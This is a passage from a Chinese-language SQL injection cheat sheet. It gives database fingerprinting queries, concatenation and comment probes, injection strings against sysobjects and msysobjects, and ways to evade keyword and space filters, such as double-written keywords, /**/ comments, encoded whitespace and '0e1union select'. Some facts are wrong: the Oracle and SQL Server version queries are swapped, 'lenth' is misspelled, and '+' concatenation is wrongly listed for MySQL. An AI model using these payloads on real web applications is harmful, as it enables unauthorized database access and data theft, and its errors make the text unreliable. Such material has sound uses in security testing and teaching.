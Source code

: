 | 数据库 | 信息查询 |
| - | - |
oracle | select@@version --
sql server | select banner from v$version
mysql | select @@version, version() --, lenth(user)>0
postgreSQL | select version() --

## 3.3 字符串处理方式

| 数据库 | 处理方式 |
| - | - |
sql server | id=1 and 'a'+'b'='ab' --
mssql | id=1 and 'a'+'b'='ab'
mysql | id=1 and 'a'+'b'='ab', 'ab'=concat('a','b')
oracle | id=1 and 'a'+'b'='a'\|\|'b', 'ab'=concat('a','b')
postgresql | id=1 and 'a'+'b'='a'\|\|'b', 'ab'=concat('a','b')

## 3.4 特殊符号与注释

1. null 和 %00 是Access支持的注释。
2. \# 是MySQL中的注释符，返回错误说明该注入点可能不是MySQL，另外也支持’-- ',和/* */注释（注意mysql使用-- 时需要后面添加空格）
3. – 和 /* */ 是Oracle，SQL server和MSSQL支持的注释符，如果正常，说明可能就是这仨了。
4. ; 是子句查询标识符，在Oracle中不支持多行查询，返回错误，很可能是Oracle数据库。

```sql
' and exists (select count(*) from sysobjects) >0 正常，就是MSSQL数据库
' and exists (select count(*) from msysobjects) >0 两条都不正常，是Access数据库
```

# 4 绕过

## 4.1 关键字过滤

- 第一种是替换关键字，这种方式可以直接通过双写关键词等方式来进行绕过；
- 第二种是关键词直接拦截，这种情况下可以通过变换函数等方式来进行绕过。

## 4.2 空格过滤

- 使用/**/即SQL语句中的注释语句来绕过。
- 使用双写URL编码绕过，例如(%20 → %2%200)。
- 通过特殊符号（反引号、加号、括号等等），绕过空格。（在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。）
- 通过科学计数法绕过：where id=0e1union select 1,2
- Fuzz所有字符，查找可替代空格的字符例如 %09 %0a %0b %0c %0d。

| URL编码 | 符号 |
| - | - |
%09 | TAB 键（水平）
%0a | 新建一行
%0c | 新的一页
%0d | return 功能
%0b | TAB 键（垂直）
%a0 | 空格
